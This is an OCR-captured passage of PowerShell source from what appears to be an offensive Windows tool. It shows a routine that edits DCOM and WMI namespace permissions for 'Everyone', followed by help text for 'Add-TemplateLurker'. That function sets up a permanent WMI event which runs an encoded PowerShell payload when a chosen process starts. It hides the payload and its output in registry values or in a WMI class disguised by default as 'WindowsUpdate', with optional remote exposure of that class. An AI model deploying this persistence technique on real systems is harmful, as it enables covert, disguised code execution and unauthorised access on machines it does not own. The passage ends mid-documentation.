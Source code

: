     # remove 'Everyone' from the 'Distributed COM Users' local group on the remote server
    $Group.Remove("WinNT://everyone,user")

    $WmiObjectAcl = $(Invoke-WmiMethod -Name GetSecurityDescriptor @Params).Descriptor

    # remove the 'Everyone' ('S-1-1-0') DACL
    $WmiObjectAcl.DACL = $WmiObjectAcl.DACL | Where-Object {$_.Trustee.SidString -ne 'S-1-1-0'} | ForEach-Object { $_.psobject.immediateBaseObject }

    $Params += @{Name="SetSecurityDescriptor"; ArgumentList=$WmiObjectAcl.PSObject.ImmediateBaseObject}
    $Output = Invoke-WmiMethod @Params
    if ($Output.ReturnValue -ne 0) {
        throw "SetSecurityDescriptor failed: $($Output.ReturnValue)"
    }
}

function Add-TemplateLurker{

<#
.SYNOPSIS

Adds a permanent WMI event that utilizes either registry values or a custom WMI namespace and class to store encoded Powershell logic and its output.

.DESCRIPTION

Add-TemplateLurker creates a permanent WMI event that will execute a provided payload when

the '<processname>' process starts. The payload, base64 Powershell logic, and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated Parameters; however, this is optional as
defaults are set.

.PARAMETER WMI

Indicates that a custom WMI class will be used for data storage. 

.PARAMETER Registry

Indicates that athe registry will be used for data storage. 

.PARAMETER ClassName

Indicates the name of the custom WMI class. Defaults to 'WindowsUpdate'.

.PARAMETER ExposeNamespace

Indicates that the custom WMI namespace will be exposed so that 'Everyone' can read the custom WMI class properties remotely. 

.PARAMETER NamespaceName
